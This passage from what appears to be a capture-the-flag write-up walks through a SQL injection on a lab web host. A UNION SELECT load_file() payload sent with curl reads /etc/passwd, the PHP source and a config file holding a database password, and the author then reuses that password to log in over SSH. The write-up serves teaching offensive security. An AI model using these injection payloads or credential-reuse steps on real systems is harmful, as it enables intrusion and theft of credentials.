 `/etc/passwd` gives a list of users on the host:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/etc/passwd');-- 
-" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
root:x:0:0:root:/root:/bin/bash
...[snip]...
htb:x:1000:1000:htb:/home/htb:/bin/bash
...[snip]...
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash

```

I can also read the page source:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/var/www/html/ind
ex.php');-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
<?php                                                              
  require('config.php');        
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
...[snip]...

```

I’m most interested in `config.php` and `firewall.php`. I’ll start with `config.php`:

```

<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>

```

This is what handles the DB connection.

### SSH

I’ve got usernames and now a password, and it happens those work together to get SSH access:

```

oxdf@parrot$ sshpass -p uhc-11qual-global-pw ssh uhc@10.10.11.128
...[snip]...
uhc@union:~$ 

```
